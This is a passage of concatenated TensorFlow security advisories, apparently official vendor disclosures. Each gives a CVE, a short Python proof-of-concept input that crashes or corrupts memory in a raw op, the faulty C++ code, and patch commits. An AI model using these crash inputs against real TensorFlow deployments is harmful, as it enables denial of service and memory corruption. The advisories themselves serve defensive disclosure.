      ctx, in0.dims() >= 2,
      errors::InvalidArgument("In[0] ndims must be >= 2: ", in0.dims()));

  OP_REQUIRES(
      ctx, in1.dims() >= 2,
      errors::InvalidArgument("In[0] ndims must be >= 2: ", in1.dims()));
}

void Compute(OpKernelContext* ctx) override {
  const Tensor& in0 = ctx->input(0);
  const Tensor& in1 = ctx->input(1);

  ValidateInputTensors(ctx, in0, in1);

  MatMulBCast bcast(in0.shape().dim_sizes(), in1.shape().dim_sizes());
  ...
}
```

Since `OP_REQUIRES` only sets `ctx->status()` to a non-OK value and calls
`return`, this allows malicious attackers to trigger an out of bounds read:

```python
import tensorflow as tf
import numpy as np

matrix_array = np.array([])
matrix_tensor = tf.convert_to_tensor(np.reshape(matrix_array,(1,0)),dtype=tf.float32)
rhs_array = np.array([])
rhs_tensor = tf.convert_to_tensor(np.reshape(rhs_array,(0,1)),dtype=tf.float32)

tf.raw_ops.MatrixTriangularSolve(matrix=matrix_tensor,rhs=rhs_tensor,lower=False,adjoint=False)
```

As the two input tensors are empty, the `OP_REQUIRES` in `ValidateInputTensors`
should fire and interrupt execution. However, given the implementation of
`OP_REQUIRES`, after the `in0.dims() >= 2` fails, execution moves to the
initialization of the `bcast` object. This initialization is done with invalid
data and results in heap OOB read.

### Patches
We have patched the issue in GitHub commit
[480641e3599775a8895254ffbc0fc45621334f68](https://github.com/tensorflow/tensorflow/commit/480641e3599775a8895254ffbc0fc45621334f68).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ye Zhang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-037: Division by 0 in `QuantizedAdd`

### CVE Number
CVE-2021-29549

### Impact
An attacker can cause a runtime division by zero error and denial of service in
`tf.raw_ops.QuantizedAdd`:

```python
import tensorflow as tf

x = tf.constant([68, 228], shape=[2, 1], dtype=tf.quint8)
y = tf.constant([], shape=[2, 0], dtype=tf.quint8)

min_x = tf.constant(10.723421015884028)
max_x = tf.constant(15.19578006631113)
min_y = tf.constant(-5.539003866682977)
max_y = tf.constant(42.18819949559947)

tf.raw_ops.QuantizedAdd(x=x, y=y, min_x=min_x, max_x=max_x, min_y=min_y, max_y=max_y)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/6f26b3f3418201479c264f2a02000880d8df151c/tensorflow/core/kernels/quantized_add_op.cc#L289-L295)
computes a modulo operation without validating that the divisor is not zero.

```cc
void VectorTensorAddition(const T* vector_data, float min_vector,
                          float max_vector, int64 vector_num_elements,
                          const T* tensor_data, float min_tensor,
                          float max_tensor, int64 tensor_num_elements,
                          float output_min, float output_max, Toutput* output) {
  for (int i = 0; i < tensor_num_elements; ++i) {
    const int64 vector_i = i % vector_num_elements;
    ...
  }
}
```

Since `vector_num_elements` is [determined based on input
shapes](https://github.com/tensorflow/tensorflow/blob/6f26b3f3418201479c264f2a02000880d8df151c/tensorflow/core/kernels/quantized_add_op.cc#L522-L544),
a user can trigger scenarios where this quantity is 0.

### Patches
We have patched the issue in GitHub commit
[744009c9e5cc5d0447f0dc39d055f917e1fd9e16](https://github.com/tensorflow/tensorflow/commit/744009c9e5cc5d0447f0dc39d055f917e1fd9e16).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-063: Undefined behavior in `MaxPool3DGradGrad`

### CVE Number
CVE-2021-29574

### Impact
The implementation of `tf.raw_ops.MaxPool3DGradGrad` exhibits undefined behavior
by dereferencing null pointers backing attacker-supplied empty tensors:

```python
import tensorflow as tf

orig_input = tf.constant([0.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
orig_output = tf.constant([0.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
grad = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)
ksize = [1, 1, 1, 1, 1]
strides = [1, 1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.MaxPool3DGradGrad(
    orig_input=orig_input, orig_output=orig_output, grad=grad, ksize=ksize,
    strides=strides, padding=padding)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/72fe792967e7fd25234342068806707bbc116618/tensorflow/core/kernels/pooling_ops_3d.cc#L679-L703)
fails to validate that the 3 tensor inputs are not empty. If any of them is
empty, then accessing the elements in the tensor results in dereferencing a
null pointer.

### Patches
We have patched the issue in GitHub commit
[a3d9f9be9ac2296615644061b40cefcee341dcc4](https://github.com/tensorflow/tensorflow/commit/a3d9f9be9ac2296615644061b40cefcee341dcc4).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-151: Missing validation in shape inference for `Dequantize`

### CVE Number
CVE-2021-37677

### Impact
The shape inference code for `tf.raw_ops.Dequantize` has a vulnerability that
could trigger a denial of service via a segfault if an attacker provides invalid
arguments:

```python
import tensorflow as tf

tf.compat.v1.disable_v2_behavior()
tf.raw_ops.Dequantize(
  input_tensor = tf.constant(-10.0, dtype=tf.float32),
  input_tensor = tf.cast(input_tensor, dtype=tf.quint8),
  min_range = tf.constant([], shape=[0], dtype=tf.float32),
  max_range = tf.constant([], shape=[0], dtype=tf.float32),
  mode  = 'MIN_COMBINED',
  narrow_range=False,
  axis=-10,
  dtype=tf.dtypes.float32)
```

The shape inference
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/ops/array_ops.cc#L2999-L3014)
uses `axis` to select between two different values for `minmax_rank` which is
then used to retrieve tensor dimensions. However, code assumes that `axis` can
be either `-1` or a value greater than `-1`, with no validation for the other
values.

### Patches
We have patched the issue in GitHub commit
[da857cfa0fde8f79ad0afdbc94e88b5d4bbec764](https://github.com/tensorflow/tensorflow/commit/da857cfa0fde8f79ad0afdbc94e88b5d4bbec764).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
## TFSA-2021-067: Heap buffer overflow in `FractionalAvgPoolGrad`

### CVE Number
CVE-2021-29578

### Impact
The implementation of `tf.raw_ops.FractionalAvgPoolGrad` is vulnerable to a heap
buffer overflow:

```python
import tensorflow as tf

orig_input_tensor_shape = tf.constant([1, 3, 2, 3], shape=[4], dtype=tf.int64)
out_backprop = tf.constant([2], shape=[1, 1, 1, 1], dtype=tf.int64)
row_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)


tf.raw_ops.FractionalAvgPoolGrad(
  orig_input_tensor_shape=orig_input_tensor_shape, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/dcba796a28364d6d7f003f6fe733d82726dda713/tensorflow/core/kernels/fractional_avg_pool_op.cc#L216)
fails to validate that the pooling sequence arguments have enough elements as
required by the `out_backprop` tensor shape.

### Patches
We have patched the issue in GitHub commit
[12c727cee857fa19be717f336943d95fca4ffe4f](https://github.com/tensorflow/tensorflow/commit/12c727cee857fa19be717f336943d95fca4ffe4f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-172: `SparseFillEmptyRows` heap OOB

### CVE Number
CVE-2021-41224

### Impact
The [implementation](https://github.com/tensorflow/tensorflow/blob/e71b86d47f8bc1816bf54d7bddc4170e47670b97/tensorflow/core/kernels/sparse_fill_empty_rows_op.cc#L194-L241) of `SparseFillEmptyRows` can be made to trigger a heap OOB access:

```python
import tensorflow as tf

data=tf.raw_ops.SparseFillEmptyRows(
  indices=[[0,0],[0,0],[0,0]],
  values=['sssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss'],
  dense_shape=[5,3],
  default_value='o')
```

This occurs whenever the size of `indices` does not match the size of `values`.

### Patches
We have patched the issue in GitHub commit [67bfd9feeecfb3c61d80f0e46d89c170fbee682b](https://github.com/tensorflow/tensorflow/commit/67bfd9feeecfb3c61d80f0e46d89c170fbee682b).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2020-025: Undefined behavior in `dlpack.to_dlpack`

### CVE Number
CVE-2020-15191

### Impact
If a user passes an invalid argument to `dlpack.to_dlpack` the expected
validations will cause variables to bind to `nullptr` while setting a `status`
variable to the error condition.

However, this `status` argument is not [properly
checked](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/c/eager/dlpack.cc#L265-L267):
```cc
  dlm_tensor->dl_tensor.data = TFE_TensorHandleDevicePointer(h, status);
  dlm_tensor->dl_tensor.dtype = GetDlDataType(data_type, status);
```

Hence, code following these methods will [bind references to null
pointers](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/c/eager/dlpack.cc#L279-L285):
```cc
  dlm_tensor->dl_tensor.shape = &(*shape_arr)[0];
  dlm_tensor->dl_tensor.strides = &(*stride_arr)[0];
```

This is undefined behavior and reported as an error if compiling with
`-fsanitize=null`.

### Vulnerable Versions
TensorFlow 2.2.0, 2.3.0.

### Patches
We have patched the issue in
[22e07fb204386768e5bcbea563641ea11f96ceb8](https://github.com/tensorflow/tensorflow/commit/22e07fb204386768e5bcbea563641ea11f96ceb8)
and will release a patch release for all affected versions.

We recommend users to upgrade to TensorFlow 2.2.1 or 2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-023.md).
## TFSA-2021-163: Null pointer dereference in TFLite MLIR optimizations

### CVE Number
CVE-2021-37689

### Impact
An attacker can craft a TFLite model that would trigger a null pointer
dereference, which would result in a crash and denial of service:

This is caused by the MLIR optimization of `L2NormalizeReduceAxis` operator. The
[implementation](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/compiler/mlir/lite/transforms/optimize.cc#L67-L70)
unconditionally dereferences a pointer to an iterator to a vector without
checking that the vector has elements:

```cc
bool L2NormalizeReduceAxis(Value sq_op, DenseElementsAttr axis) {
  if (sq_op.getType().cast<ShapedType>().getRank() - 1 ==
          *axis.getValues<int>().begin() ||
      *axis.getValues<int>().begin() == -1) {
      // ...
  }
  // ...
}
```

### Patches
We have patched the issue in GitHub commit
[d6b57f461b39fd1aa8c1b870f1b974aac3554955](https://github.com/tensorflow/tensorflow/commit/d6b57f461b39fd1aa8c1b870f1b974aac3554955).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
## TFSA-2021-139: Incomplete validation in MKL requantization

### CVE Number
CVE-2021-37665

### Impact
Due to incomplete validation in MKL implementation of requantization, an
attacker can trigger undefined behavior via binding a reference to a null
pointer or can access data outside the bounds of heap allocated arrays:

```python
import tensorflow as tf

tf.raw_ops.RequantizationRangePerChannel(
  input=[],
  input_min=[0,0,0,0,0],
  input_max=[1,1,1,1,1],
  clip_value_max=1)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/mkl/mkl_requantization_range_per_channel_op.cc)
does not validate the dimensions of the `input` tensor.

A similar issue occurs in `MklRequantizePerChannelOp`:

```python
import tensorflow as tf
from tensorflow.python.ops import gen_math_ops

gen_math_ops.requantize_per_channel(
  input=[],
  input_min=[-100,-100,-100,-100,-100],
  input_max=[-100,-100,-100],
  requested_output_min=[-100,-100,-100,-100,-100],
  requested_output_max=[],
  out_type=tf.int)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/mkl/mkl_requantize_per_channel_op.cc)
does not perform full validation for all the input arguments.

### Patches
We have patched the issue in GitHub commit
[9e62869465573cb2d9b5053f1fa02a81fce21d69](https://github.com/tensorflow/tensorflow/commit/9e62869465573cb2d9b5053f1fa02a81fce21d69)
and in the Github commit
[203214568f5bc237603dbab6e1fd389f1572f5c9](https://github.com/tensorflow/tensorflow/commit/203214568f5bc237603dbab6e1fd389f1572f5c9).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-059: Memory corruption in `DrawBoundingBoxesV2`

### CVE Number
CVE-2021-29571

### Impact
The implementation of `tf.raw_ops.MaxPoolGradWithArgmax` can cause reads outside
of bounds of heap allocated data if attacker supplies specially crafted inputs:

```python
import tensorflow as tf

images = tf.fill([10, 96, 0, 1], 0.)
boxes = tf.fill([10, 53, 0], 0.)
colors = tf.fill([0, 1], 0.)

tf.raw_ops.DrawBoundingBoxesV2(images=images, boxes=boxes, colors=colors)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/31bd5026304677faa8a0b77602c6154171b9aec1/tensorflow/core/kernels/image/draw_bounding_box_op.cc#L116-L130)
assumes that the last element of `boxes` input is 4, as required by [the
op](https://www.tensorflow.org/api_docs/python/tf/raw_ops/DrawBoundingBoxesV2).
Since this is not checked attackers passing values less than 4 can write outside
of bounds of heap allocated objects and cause memory corruption:

```cc
const auto tboxes = boxes.tensor<T, 3>();
for (int64 bb = 0; bb < num_boxes; ++bb) {
  ...
  const int64 min_box_row = static_cast<float>(tboxes(b, bb, 0)) * (height - 1);
  const int64 max_box_row = static_cast<float>(tboxes(b, bb, 2)) * (height - 1);
  const int64 min_box_col = static_cast<float>(tboxes(b, bb, 1)) * (width - 1);
  const int64 max_box_col = static_cast<float>(tboxes(b, bb, 3)) * (width - 1);
  ...
}
```

If the last dimension in `boxes` is less than 4, accesses similar to `tboxes(b,
bb, 3)` will access data outside of bounds. Further during code execution there
are also writes to these indices.

### Patches
We have patched the issue in GitHub commit
[79865b542f9ffdc9caeb255631f7c56f1d4b6517](https://github.com/tensorflow/tensorflow/commit/79865b542f9ffdc9caeb255631f7c56f1d4b6517).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-118: Null pointer dereference in `MatrixDiagPartOp`

### CVE Number
CVE-2021-37643

### Impact
If a user does not provide a valid padding value to
`tf.raw_ops.MatrixDiagPartOp`, then the code triggers a null pointer dereference
(if input is empty) or produces invalid behavior, ignoring all values after the
first:

```python
import tensorflow as tf

tf.raw_ops.MatrixDiagPartV2(
  input=tf.ones(2,dtype=tf.int32),
  k=tf.ones(2,dtype=tf.int32),
  padding_value=[])
```

Although this example is given for `MatrixDiagPartV2`, all versions of the
operation are affected.

The
[implementation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/linalg/matrix_diag_op.cc#L89)
reads the first value from a tensor buffer without first checking that the
tensor has values to read from.

### Patches
We have patched the issue in GitHub commit
[482da92095c4d48f8784b1f00dda4f81c28d2988](https://github.com/tensorflow/tensorflow/commit/482da92095c4d48f8784b1f00dda4f81c28d2988).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-033: Heap buffer overflow in `SparseTensorToCSRSparseMatrix`

### CVE Number
CVE-2021-29545

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
converting sparse tensors to CSR Sparse matrices:

```python
import tensorflow as tf
import numpy as np
from tensorflow.python.ops.linalg.sparse import sparse_csr_matrix_ops

indices_array = np.array([[0, 0]])
value_array = np.array([0.0], dtype=np.float32)
dense_shape = [0, 0]

st = tf.SparseTensor(indices_array, value_array, dense_shape)

values_tensor = sparse_csr_matrix_ops.sparse_tensor_to_csr_sparse_matrix(
       st.indices, st.values, st.dense_shape)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/800346f2c03a27e182dd4fba48295f65e7790739/tensorflow/core/kernels/sparse/kernels.cc#L66)
does a double redirection to access an element of an array allocated on the
heap:

```cc
csr_row_ptr(indices(i, 0) + 1) += 1;
```

If the value at `indices(i, 0)` is such that `indices(i, 0) + 1` is outside the
bounds of `csr_row_ptr`, this results in writing outside of bounds of heap
allocated data.

### Patches
We have patched the issue in GitHub commit
[1e922ccdf6bf46a3a52641f99fd47d54c1decd13](https://github.com/tensorflow/tensorflow/commit/1e922ccdf6bf46a3a52641f99fd47d54c1decd13).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-131: Reference binding to nullptr in `MatrixDiagV*` ops

### CVE Number
CVE-2021-37657

### Impact
An attacker can cause undefined behavior via binding a reference to null pointer
in all operations of type `tf.raw_ops.MatrixDiagV*`:

```python
import tensorflow as tf

tf.raw_ops.MatrixDiagV3(
  diagonal=[1,0],
  k=[],
  num_rows=[1,2,3],
  num_cols=[4,5],
  padding_value=[],
  align='RIGHT_RIGHT')
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/linalg/matrix_diag_op.cc)
has incomplete validation that the value of `k` is a valid tensor. We have check
that this value is either a scalar or a vector, but there is no check for the
number of elements. If this is an empty tensor, then code that accesses the
first element of the tensor is wrong:

```cc
  auto& diag_index = context->input(1);
  ...
  lower_diag_index = diag_index.flat<int32>()(0);
```

### Patches
We have patched the issue in GitHub commit
[f2a673bd34f0d64b8e40a551ac78989d16daad09](https://github.com/tensorflow/tensorflow/commit/f2a673bd34f0d64b8e40a551ac78989d16daad09).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-056: Lack of validation in `SparseDenseCwiseMul`

### CVE Number
CVE-2021-29567

### Impact
Due to lack of validation in `tf.raw_ops.SparseDenseCwiseMul`, an attacker can
trigger denial of service via `CHECK`-fails or accesses to outside the bounds of
heap allocated data:

```python
import tensorflow as tf

indices = tf.constant([], shape=[10, 0], dtype=tf.int64)
values = tf.constant([], shape=[0], dtype=tf.int64)
shape = tf.constant([0, 0], shape=[2], dtype=tf.int64)
dense = tf.constant([], shape=[0], dtype=tf.int64)

tf.raw_ops.SparseDenseCwiseMul(
    sp_indices=indices, sp_values=values, sp_shape=shape, dense=dense)
```

Since the
[implementation](https://github.com/tensorflow/tensorflow/blob/38178a2f7a681a7835bb0912702a134bfe3b4d84/tensorflow/core/kernels/sparse_dense_binary_op_shared.cc#L68-L80)
only validates the rank of the input arguments but no [constraints between
dimensions](https://www.tensorflow.org/api_docs/python/tf/raw_ops/SparseDenseCwiseMul),
an attacker can abuse them to trigger internal `CHECK` assertions (and cause
program termination, denial of service) or to write to memory outside of bounds
of heap allocated tensor buffers.


### Patches
We have patched the issue in GitHub commit
[7ae2af34087fb4b5c8915279efd03da3b81028bc](https://github.com/tensorflow/tensorflow/commit/7ae2af34087fb4b5c8915279efd03da3b81028bc).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-154: Division by zero in TFLite

### CVE Number
CVE-2021-37680

### Impact
The implementation of fully connected layers in TFLite is [vulnerable to a
division by zero
error](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/lite/kernels/fully_connected.cc#L226):

```cc
const int batch_size = input_size / filter->dims->data[1];
```

An attacker can craft a model such that `filter->dims->data[1]` is 0.

### Patches
We have patched the issue in GitHub commit
[718721986aa137691ee23f03638867151f74935f](https://github.com/tensorflow/tensorflow/commit/718721986aa137691ee23f03638867151f74935f).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360. Concurrently, it has also been reported by Yakun Zhang of Baidu Security.
## TFSA-2021-078: Heap OOB read in TFLite's implementation of `Minimum` or `Maximum`

### CVE Number
CVE-2021-29590

### Impact
The implementations of the `Minimum` and `Maximum` TFLite operators can be used
to read data outside of bounds of heap allocated objects, if any of the two
input tensor arguments are empty.

This is because [the broadcasting
implementation](https://github.com/tensorflow/tensorflow/blob/0d45ea1ca641b21b73bcf9c00e0179cda284e7e7/tensorflow/lite/kernels/internal/reference/maximum_minimum.h#L52-L56)
indexes in both tensors with the same index but does not validate that the index
is within bounds:

```cc
auto maxmin_func = [&](int indexes[N]) {
  output_data[SubscriptToIndex(output_desc, indexes)] =
    op(input1_data[SubscriptToIndex(desc1, indexes)],
        input2_data[SubscriptToIndex(desc2, indexes)]);
};
```

### Patches
We have patched the issue in GitHub commit
[953f28dca13c92839ba389c055587cfe6c723578](https://github.com/tensorflow/tensorflow/commit/953f28dca13c92839ba389c055587cfe6c723578).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-016: Segfault due to invalid splits in RaggedCountSparseOutput

### CVE Number
CVE-2020-15200

### Impact
The `RaggedCountSparseOutput` implementation does not validate that the input
arguments form a valid ragged tensor. In particular, there is no validation that
the values in the `splits` tensor generate a valid partitioning of the `values`
tensor. Thus, the [following
code](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/count_ops.cc#L248-L265
) sets up conditions to cause a heap buffer overflow:
```cc
    auto per_batch_counts = BatchedMap<W>(num_batches);
    int batch_idx = 0;
    for (int idx = 0; idx < num_values; ++idx) {
      while (idx >= splits_values(batch_idx)) {
        batch_idx++;
      }
      const auto& value = values_values(idx);
      if (value >= 0 && (maxlength_ <= 0 || value < maxlength_)) {
        per_batch_counts[batch_idx - 1][value] = 1;
      }
    }
```

A `BatchedMap` is equivalent to a vector where each element is a hashmap.
However, if the first element of `splits_values` is not 0, `batch_idx` will
never be 1, hence there will be no hashmap at index 0 in `per_batch_counts`.
Trying to access that in the user code results in a segmentation fault.

### Vulnerable Versions
TensorFlow 2.3.0.

### Patches
We have patched the issue in
[3cbb917b4714766030b28eba9fb41bb97ce9ee02](https://github.com/tensorflow/tensorflow/commit/3cbb917b4714766030b28eba9fb41bb97ce9ee02)
and will release a patch release.

We recommend users to upgrade to TensorFlow 2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-015.md).
## TFSA-2021-003: Type confusion during tensor casts lead to dereferencing null pointers

### CVE Number
CVE-2021-29513

### Impact
Calling TF operations with tensors of non-numeric types when the operations expect
numeric tensors result in null pointer dereferences.

There are multiple ways to reproduce this, listing a few examples here:

```python
import tensorflow as tf
import numpy as np
data = tf.random.truncated_normal(shape=1,mean=np.float32(20.8739),stddev=779.973,dtype=20,seed=64)
```

```python
import tensorflow as tf
import numpy as np
data =
tf.random.stateless_truncated_normal(shape=1,seed=[63,70],mean=np.float32(20.8739),stddev=779.973,dtype=20)
```

```python
import tensorflow as tf
import numpy as np
data = tf.one_hot(indices=[62,50],depth=136,on_value=np.int32(237),off_value=158,axis=856,dtype=20)
```

```python
import tensorflow as tf
import numpy as np
data = tf.range(start=np.int32(214),limit=660,delta=129,dtype=20)
```

```python
import tensorflow as tf
import numpy as np
data = tf.raw_ops.ResourceCountUpTo(resource=np.int32(30), limit=872, T=3)
```

```python
import tensorflow as tf
import numpy as np

writer_array = np.array([1,2],dtype=np.int32)
writer_tensor = tf.convert_to_tensor(writer_array,dtype=tf.resource)
```

All these examples and similar ones have the same behavior: the [conversion from
Python array to C++
array](https://github.com/tensorflow/tensorflow/blob/ff70c47a396ef1e3cb73c90513da4f5cb71bebba/tensorflow/python/lib/core/ndarray_tensor.cc#L113-L169)
is vulnerable to a type confusion:

```cc
  int pyarray_type = PyArray_TYPE(array);
  PyArray_Descr* descr = PyArray_DESCR(array);
  switch (pyarray_type) {
    ...
    case NPY_VOID:
      // Quantized types are currently represented as custom struct types.
      // PyArray_TYPE returns NPY_VOID for structs, and we should look into
      // descr to derive the actual type.
      // Direct feeds of certain types of ResourceHandles are represented as a
      // custom struct type.
      return PyArrayDescr_to_TF_DataType(descr, out_tf_datatype);
    ...
  }
```

For the tensor types involved in the above example, the `pyarray_type` is
`NPY_VOID` but the `descr` field is such that `descr->field = NULL`. Then
[`PyArrayDescr_to_TF_DataType`](https://github.com/tensorflow/tensorflow/blob/ff70c47a396ef1e3cb73c90513da4f5cb71bebba/tensorflow/python/lib/core/ndarray_tensor.cc#L72-L77)
will trigger a null dereference:

```cc
Status PyArrayDescr_to_TF_DataType(PyArray_Descr* descr,
                                   TF_DataType* out_tf_datatype) {
  PyObject* key;
  PyObject* value;
  Py_ssize_t pos = 0;
  if (PyDict_Next(descr->fields, &pos, &key, &value)) {
    ...
  }
}
```

This is because the Python's `PyDict_Next` implementation would dereference the
first argument.

### Patches
We have patched the issue in GitHub commit
